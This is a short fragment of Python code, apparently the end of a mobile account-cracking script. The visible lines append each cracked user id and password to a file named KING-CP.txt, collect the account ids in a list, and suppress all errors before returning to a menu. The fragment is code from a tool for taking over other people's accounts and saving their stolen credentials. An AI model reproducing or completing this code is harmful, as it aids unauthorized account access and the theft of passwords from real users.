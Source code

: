                                         open('/sdcard/KING-CP.txt','a').write(str(uid)+'|'+pas+'\n')
                                        cps.append(str(ids))
                                        break
                        else:continue
                loop+=1
        except Exception as e:
                pass

menu()# Legendaman
